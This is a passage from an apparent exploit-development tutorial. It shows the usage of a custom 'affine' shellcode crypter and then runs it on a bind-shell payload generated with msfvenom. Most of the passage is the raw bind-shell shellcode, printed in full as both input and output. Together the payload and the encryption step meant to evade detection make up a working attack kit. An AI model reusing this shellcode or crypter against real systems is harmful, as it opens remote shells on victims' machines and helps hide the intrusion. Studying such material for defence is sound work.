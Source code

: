 [x] Error: Provide an option and a valid shellcode

[!] Usage: ./affine < option > < shellcode >

Options:
   -d : Decryption
   -e : Encryption
</pre>


<p align="justify">
At this point we will use the tool to encrypt the bind shellcode generated from <b>msfvenom</b>.
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>/home/kali</b></span># ./affine -e \xba\x8f\xa2\x98\x34\xd9\xca\xd9\x74\x24\xf4\x58\x29\xc9\xb1\x53\x31\x50\x12\x83\xe8\xfc\x03\xdf\xac\x7a\xc1\x23\x58\xf8\x2a\xdb\x99\x9d\xa3\x3e\xa8\x9d\xd0\x4b\x9b\x2d\x92\x19\x10\xc5\xf6\x89\xa3\xab\xde\xbe\x04\x01\x39\xf1\x95\x3a\x79\x90\x15\x41\xae\x72\x27\x8a\xa3\x73\x60\xf7\x4e\x21\x39\x73\xfc\xd5\x4e\xc9\x3d\x5e\x1c\xdf\x45\x83\xd5\xde\x64\x12\x6d\xb9\xa6\x95\xa2\xb1\xee\x8d\xa7\xfc\xb9\x26\x13\x8a\x3b\xee\x6d\x73\x97\xcf\x41\x86\xe9\x08\x65\x79\x9c\x60\x95\x04\xa7\xb7\xe7\xd2\x22\x23\x4f\x90\x95\x8f\x71\x75\x43\x44\x7d\x32\x07\x02\x62\xc5\xc4\x39\x9e\x4e\xeb\xed\x16\x14\xc8\x29\x72\xce\x71\x68\xde\xa1\x8e\x6a\x81\x1e\x2b\xe1\x2c\x4a\x46\xa8\x38\xbf\x6b\x52\xb9\xd7\xfc\x21\x8b\x78\x57\xad\xa7\xf1\x71\x2a\xc7\x2b\xc5\xa4\x36\xd4\x36\xed\xfc\x80\x66\x85\xd5\xa8\xec\x55\xd9\x7c\x98\x5d\x7c\x2f\xbf\xa0\x3e\x9f\x7f\x0a\xd7\xf5\x8f\x75\xc7\xf5\x45\x1e\x60\x08\x66\x20\x12\x85\x80\x4a\xc4\xc3\x1b\xe2\x26\x30\x94\x95\x59\x12\x8c\x31\x11\x74\x0b\x3e\xa2\x52\x3b\xa8\x29\xb1\xff\xc9\x2d\x9c\x57\x9e\xba\x6a\x36\xed\x5b\x6a\x13\x85\xf8\xf9\xf8\x55\x76\xe2\x56\x02\xdf\xd4\xae\xc6\xcd\x4f\x19\xf4\x0f\x09\x62\xbc\xcb\xea\x6d\x3d\x99\x57\x4a\x2d\x67\x57\xd6\x19\x37\x0e\x80\xf7\xf1\xf8\x62\xa1\xab\x57\x2d\x25\x2d\x94\xee\x33\x32\xf1\x98\xdb\x83\xac\xdc\xe4\x2c\x39\xe9\x9d\x50\xd9\x16\x74\xd1\xe9\x5c\xd4\x70\x62\x39\x8d\xc0\xef\xba\x78\x06\x16\x39\x88\xf7\xed\x21\xf9\xf2\xaa\xe5\x12\x8f\xa3\x83\x14\x3c\xc3\x81

[!] Affine Encryption

[+] Shellcode:

\xba\x8f\xa2\x98\x34\xd9\xca\xd9\x74\x24\xf4\x58\x29\xc9\xb1\x53\x31\x50\x12\x83\xe8\xfc\x03\xdf\xac\x7a\xc1\x23\x58\xf8\x2a\xdb\x99\x9d\xa3\x3e\xa8\x9d\xd0\x4b\x9b\x2d\x92\x19\x10\xc5\xf6\x89\xa3\xab\xde\xbe\x04\x01\x39\xf1\x95\x3a\x79\x90\x15\x41\xae\x72\x27\x8a\xa3\x73\x60\xf7\x4e\x21\x39\x73\xfc\xd5\x4e\xc9\x3d\x5e\x1c\xdf\x45\x83\xd5\xde\x64\x12\x6d\xb9\xa6\x95\xa2\xb1\xee\x8d\xa7\xfc\xb9\x26\x13\x8a\x3b\xee\x6d\x73\x97\xcf\x41\x86\xe9\x08\x65\x79\x9c\x60\x95\x04\xa7\xb7\xe7\xd2\x22\x23\x4f\x90\x95\x8f\x71\x75\x43\x44\x7d\x32\x07\x02\x62\xc5\xc4\x39\x9e\x4e\xeb\xed\x16\x14\xc8\x29\x72\xce\x71\x68\xde\xa1\x8e\x6a\x81\x1e\x2b\xe1\x2c\x4a\x46\xa8\x38\xbf\x6b\x52\xb9\xd7\xfc\x21\x8b\x78\x57\xad\xa7\xf1\x71\x2a\xc7\x2b\xc5\xa4\x36\xd4\x36\xed\xfc\x80\x66\x85\xd5\xa8\xec\x55\xd9\x7c\x98\x5d\x7c\x2f\xbf\xa0\x3e\x9f\x7f\x0a\xd7\xf5\x8f\x75\xc7\xf5\x45\x1e\x60\x08\x66\x20\x12\x85\x80\x4a\xc4\xc3\x1b\xe2\x26\x30\x94\x95\x59\x12\x8c\x31\x11\x74\x0b\x3e\xa2\x52\x3b\xa8\x29\xb1\xff\xc9\x2d\x9c\x57\x9e\xba\x6a\x36\xed\x5b\x6a\x13\x85\xf8\xf9\xf8\x55\x76\xe2\x56\x02\xdf\xd4\xae\xc6\xcd\x4f\x19\xf4\x0f\x09\x62\xbc\xcb\xea\x6d\x3d\x99\x57\x4a\x2d\x67\x57\xd6\x19\x37\x0e\x80\xf7\xf1\xf8\x62\xa1\xab\x57\x2d\x25\x2d\x94\xee\x33\x32\xf1\x98\xdb\x83\xac\xdc\xe4\x2c\x39\xe9\x9d\x50\xd9\x16\x74\xd1\xe9\x5c\xd4\x70\x62\x39\x8d\xc0\xef\xba\x78\x06\x16\x39\x88\xf7\xed\x21\xf9\xf2\xaa\xe5\x12\x8f\xa3\x83\x14\x3c\xc3\x81
